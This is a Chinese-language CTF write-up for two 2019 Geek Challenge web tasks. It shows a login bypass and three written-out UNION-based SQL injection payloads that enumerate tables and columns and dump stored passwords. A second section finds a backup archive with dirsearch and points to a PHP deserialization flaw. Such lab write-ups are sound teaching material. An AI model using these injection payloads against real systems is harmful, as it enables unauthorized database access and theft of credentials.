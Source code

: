 
## [极客大挑战 2019]LoveSQL ##
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbgko45ufj30rh0i5woi.jpg)
尝试万能密码
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbgm3qdh3j30tj09kgpl.jpg)
登录成功，说明存在注入点

![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbgpg5cd6j30eu03iq32.jpg)
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbgpu8llwj30sy09fgp3.jpg)
说明有3个字段。

![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbgr5czwlj30f80a4dj7.jpg)

在用户名方框里没有注入成功，在密码方框里注入成功

在密码框中使用
admin' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() #
列出表名
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbh26o28hj30lb0a0wi4.jpg)

接着使用
admin' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="l0ve1ysq1" #
列出字段

![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbh9yytzxj30m109z420.jpg)

最后使用
admin' union select 1,2,group_concat(password) from l0ve1ysq1 #
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbhbpxpejj30wy0d2jxu.jpg)

获得flag。


## [极客大挑战 2019]PHP ##
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbl86nvixj30oj07g3zk.jpg)
根据提示，页面有备份文件

![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbl7ooiwbj30aw011weh.jpg)

使用dirsearch扫描，发现备份文件www.zip
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfbl9scevgj30l804gwep.jpg)
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfblb4esaxj30og0o3gn8.jpg)
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfblbvo3qlj30b403x3yh.jpg)

从class.php和index.php可知，该题是反序化漏洞。代码审计可知username应为admin，password应为100才能获得flag。
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfblhrdqzsj30j00fl75c.jpg)
![](http://ww1.sinaimg.cn/large/007u7C9Rgy1gfblitplw1j30lg01ya9x.jpg)
